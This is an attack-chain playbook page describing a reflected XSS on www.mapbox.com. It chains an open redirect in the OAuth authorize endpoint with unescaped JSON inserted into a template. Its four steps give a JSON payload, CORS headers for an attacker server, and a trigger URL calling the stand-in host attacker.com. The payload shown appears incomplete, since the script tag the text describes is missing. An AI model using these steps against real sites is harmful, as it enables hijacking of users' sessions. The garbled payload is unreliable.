

# Mapbox XSS via Open Redirect in OAuth Authorization Endpoint

Multi-stage attack chain demonstrating exploitation of an open redirect vulnerability in Mapbox's /core/oauth/auth endpoint, chained with unescaped JSON insertion in the authorize page template to achieve reflected XSS and arbitrary JavaScript execution on the www.mapbox.com domain.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Chrome]]
- Attacker-controlled HTTPS server (e.g., for hosting JSON)

### Target Environment

- Web platform
- Mapbox OAuth services
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Public access to www.mapbox.com/authorize/
- Ability to host files on an HTTPS server
- No credentials needed

## Detailed Attack Procedures

### Step 1: Host Malicious JSON Payload
procedure: [[procedures/Host-Malicious-JSON-Payload-for-XSS]]

**Objective**: Create and serve a JSON response that injects a script tag via the authorize_url property to break out of the template and execute JavaScript.

**Instructions**: Prepare the JSON file with the payload {"authorize_url":"'>","stage":"authorize","user":{"name":"nombre","extraTm2z":17},"origin":""} and host it on an HTTPS server.

**Expected Output**: JSON file accessible via HTTPS URL, e.g., https://attacker.com/mapbox/oauth.json.

**Success Indicators**:
- JSON file loads without errors in browser
- Payload script tag is present in the JSON

### Step 2: Configure Server CORS Headers
procedure: [[procedures/Configure-Server-CORS-for-Cross-Origin-Access]]

**Objective**: Enable cross-origin requests from www.mapbox.com to the attacker's server by setting appropriate CORS headers, allowing the authorize page to fetch the malicious JSON.

**Instructions**: On the hosting server, configure response headers: Access-Control-Allow-Origin: https://www.mapbox.com, Access-Control-Allow-Credentials: true, Access-Control-Allow-Headers: x-requested-with.

**Expected Output**: Requests from www.mapbox.com to the JSON endpoint return with the specified CORS headers.

**Success Indicators**:
- Browser dev tools show CORS headers in response
- No CORS errors when fetching from mapbox.com context

### Step 3: Trigger XSS via Malicious Redirect URI
procedure: [[procedures/Trigger-XSS-via-Malicious-Redirect-URI]]

**Objective**: Exploit the open redirect by setting redirect_uri to the malicious JSON URL, causing the auth endpoint to return the JSON, which is then inserted unescaped into the authorize template.

**Instructions**: Load the URL https://www.mapbox.com/authorize/?redirect_uri=https://attacker.com/mapbox/oauth.json in a browser. The authorize page fetches from /core/oauth/auth, receives the JSON, and inserts it into <form action='<%=App.api + obj.authorize_url%>'>.

**Expected Output**: The form action becomes malformed, injecting the script tag.

**Success Indicators**:
- Page loads with altered form action
- Network tab shows fetch to malicious JSON succeeding

### Step 4: Verify JavaScript Execution in Browser
procedure: [[procedures/Verify-JavaScript-Execution-in-Browser]]

**Objective**: Confirm arbitrary code execution by observing the alert popup demonstrating domain access on www.mapbox.com.

**Instructions**: Upon loading the URL, the injected script executes, popping an alert with 'www.mapbox.com'.

**Expected Output**: Alert dialog appears in the browser.

**Success Indicators**:
- alert(document.domain) fires
- Works across Chrome, Safari, Firefox, IE11, Edge

## Attack Chain Summary

### Key Achievements

1. Bypassed redirect validation to fetch attacker-controlled JSON
2. Injected unescaped HTML/JS into the authorize template
3. Achieved XSS on a high-value domain (www.mapbox.com)
4. Demonstrated cross-browser compatibility

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
